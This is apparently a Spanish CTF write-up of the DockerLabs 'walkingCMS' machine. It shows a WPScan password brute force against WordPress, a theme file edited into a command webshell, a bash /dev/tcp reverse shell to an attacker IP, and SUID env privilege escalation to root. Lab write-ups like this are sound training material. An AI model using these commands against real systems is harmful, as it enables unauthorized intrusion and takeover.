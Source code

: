 # walkingCMS

Pequeño Lab en modo **easy** de dockerlabs.

---

## 🔎 Reconocimiento

Se asume que la máquina objetivo se encuentra correctamente desplegada dentro de nuestra red de laboratorio (en este caso, utilizando Docker).
Dado que la dirección IP del objetivo es proporcionada o fácilmente identificable dentro del entorno controlado, esta fase puede clasificarse como **reconocimiento pasivo**.

En un escenario real, el reconocimiento pasivo se orienta a recopilar información sin interactuar directamente con el sistema objetivo (por ejemplo, utilizando fuentes OSINT, registros públicos o información de infraestructura).
En este caso particular, al tratarse de un laboratorio aislado, la obtención de la IP se considera suficiente para dar inicio a la fase de enumeración activa.

![enter image description here](https://i.imgur.com/3XmtBs3.png)

---

## 📡 Escaneo

Como primer paso, se realizó un escaneo general de puertos y servicios con la herramienta **Nmap**, con el objetivo de identificar qué servicios se encuentran expuestos en el sistema objetivo (target) y obtener un panorama inicial de la superficie de ataque.

El comando ejecutado fue el siguiente:

    nmap -p- --open -sC -sC -sV --min-rate 5000 -n -Pn 172.17.0.2

- **-p-** → Escanea todos los puertos TCP (1 al 65535).

- **--open** → Muestra únicamente los puertos abiertos.

- **-sC** → Ejecuta los scripts por defecto de Nmap (NSE) para detección básica de vulnerabilidades y configuraciones inseguras.

- **-sV** → Intenta identificar la versión de los servicios en ejecución.

- **--min-rate** 5000 → Acelera el escaneo estableciendo un mínimo de 5000 paquetes por segundo.

- **-n** → Evita la resolución DNS para mayor rapidez.

- **-Pn** → Omite la fase de descubrimiento de host (se asume que el host está activo).

- **172.17.0.2** → Dirección IP asignada a la máquina víctima dentro del entorno Docker.

![enter image description here](https://i.imgur.com/1WvtOWR.png)

### Resultados del escaneo

El escaneo realizado con Nmap reveló que el puerto **80/tcp** se encuentra abierto y asociado al servicio HTTP. Esto indica la presencia de un servidor web en ejecución dentro del objetivo.

Con esta información inicial, se procedió a validar el hallazgo accediendo mediante un navegador a la dirección: `http://172.17.0.2` De esta manera, se confirma la existencia de un servicio web activo en el sistema. A partir de este punto, se iniciará la fase de enumeración web, con el fin de identificar posibles directorios ocultos, archivos sensibles o vulnerabilidades presentes en la aplicación expuesta. que hay un servicio web en efecto.

![enter image description here](https://i.imgur.com/RAoQPtY.png)

---

### 📂 Enumeración

El objetivo de esta fase es detectar posibles rutas ocultas o sensibles que puedan ser utilizadas para obtener información adicional del sistema o ser explotadas como vectores de ataque.

Para esta tarea se empleó la herramienta **Gobuster**, la cual permite realizar un ataque de fuerza bruta sobre el árbol de directorios utilizando listas de palabras previamente definidas.

    gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,txt,html,php.bak

**Nota**: Podríamos tener en cuenta las siguientes consideraciones antes de usar el gobuster:

- **seclists** → Es un directorio genérico de diccionarios que se pueden instalar en parrot y kali utilizando `sudo apt install seclists`
- **-x** → Es para definir las extensiones que queremos encontrar al escanear la web.

![enter image description here](https://i.imgur.com/Acs91Dy.png)

Tras la ejecución de Gobuster, se identificaron varios directorios accesibles dentro del servidor web. Entre ellos, uno de especial interés corresponde a `http://172.17.0.2/wordpress` por lo que si nos dirigimos al enlace visualizaremos una página de inicio.

![enter image description here](https://i.imgur.com/qAyX6Nu.png)

Una vez identificado el directorio `/wordpress`, se determinó que el servicio corresponde a un CMS WordPress.
Dado que este tipo de plataformas son propensas a vulnerabilidades relacionadas con su versión, plugins y temas instalados, se decidió realizar un análisis de seguridad empleando la herramienta **WPScan**.

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp

![enter image description here](https://i.imgur.com/inH5Nxo.png)
![enter image description here](https://i.imgur.com/tSSdBwY.png)

Utilizar algun script con payloads personalizados o desde metasploit también sería una buena opción, para aprovechar el **xmlrpc** ya que practicamente es un fósil que presenta riesgos de seguridad.
Se identificó también que hay un tema activo y es el **twenty twentytwo**, algo que podría ser utilizado para explotar o algún plugin que tenga sus fallas o malas configuraciones a simple vista. En este caso el theme parece ser accessible desde una ruta en el navegador.
Por otro lado, hay un usuario llamado "mario" que podría resultar útil en un ataque de fuerza bruta, es por esto que se decide escanear nuevamente con el **wpscan** y añadirle nuevos parámetros como un diccionario de combinaciones de passwords como lo es rockyou y un usuario.

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp --passwords /home/criollo/rockyou.txt --usernames mario --random-user-agent

![enter image description here](https://i.imgur.com/CQAVinl.png)

Con un ataque automático de brute force realizado por el wpscan y utilizando nuestro diccionario de combinaciones obtenemos la contraseña.
Si analizamos nuevamente con el gobuster pero utilizando el directorio de wordpress, encontraríamos otros resultados que nos ayudarían a conseguir la forma de loguear o utilizar las credenciales que obtuvimos.

![enter image description here](https://i.imgur.com/MfPg9z8.png)

---

## 💥 Explotación

A continuación, podremos notar que:

    http://172.17.0.2/wordpress/wp-login.php

Es una ruta que parece llevarnos al inicio de sesión de nuestro Wordpress, si intentamos con las credenciales y obtenemos acceso a la dashboard de la plataforma.
![enter image description here](https://i.imgur.com/Tcr1UUP.png)

Directamente se tuvo muy encuenta la revelación del wpscan con respecto al tema twenty twenty por lo que al saber que se puede acceder desde `http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php`
Podriamos usarlo para realizar una reverse shell editando el index.php, para eso dentro de la dashboard se posiciona en `Apariencia>Theme Code Editor`, luego se ubica el index.php y se editar, reemplazando el código original por un código php básico donde se reciba el query param **cmd**, una vez lo modifiquemos, le damos a **Update File** y ya podríamos acceder a la ruta del tema utilizando parámetros que en esta ocasión sería cmd=COMANDO.
![enter image description here](https://i.imgur.com/diWBn6X.png)

Un claro ejemplo de esto sería ejecutar un comando a nivel de terminal en linux (esta máquina es debian) como es el `ls` y obtener algo como:

![enter image description here](https://i.imgur.com/XZDGpMy.png)

### Reverse shell

Debido a que funciona, se puede utilizar un código en bash para ejecutar una reverse shell que nos permita establecer conexión desde shell. En este caso podríamos usar la de bash encontrada en [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), donde la IP será de nuetra máquina atacante al igual que el puerto de escucha.

Ejemplo:

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Aplicado sería:

    http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.0.1/443 0>%261"

**Notas**:

- Con el código de `%26`reemplazamos a la **&** y mejoramos la inyección de comando evitando errores.
- Se utilizó el puerto 443 en lugar del 8080
- Antes de ejecutar el webshell se utilizó netcat para ponerse a la escucha con el puerto designado `sudo nc -lvnp 443`

Luego de ejecutar el comando en la Web shell, conseguimos establecer conexión con nuestra máquina.
![enter image description here](https://i.imgur.com/dpYnHCI.png)

### 🔝 Escalar privilegios

Moviéndose al `/home`se pueden buscar archivos en la raíz que permitan ser explotados o ejecutados para conseguir el `root`de la máquina.

    find / -perm -4000 2>/dev/null

![enter image description here](https://i.imgur.com/3lkIOGD.png)

Buscando en [GTFObins](https://gtfobins.github.io/gtfobins/env/) , `env` podría ser explotado de la siguiente manera con SUID obteniendo escalada de privilegios:

```
sudo install -m =xs $(which env) .

./env /bin/sh -p
```

Por lo que si lo aplicamos a nuestra máquina...
![enter image description here](https://i.imgur.com/HAivnyT.png)

Logramos comprometerla y obtener el usuario root.
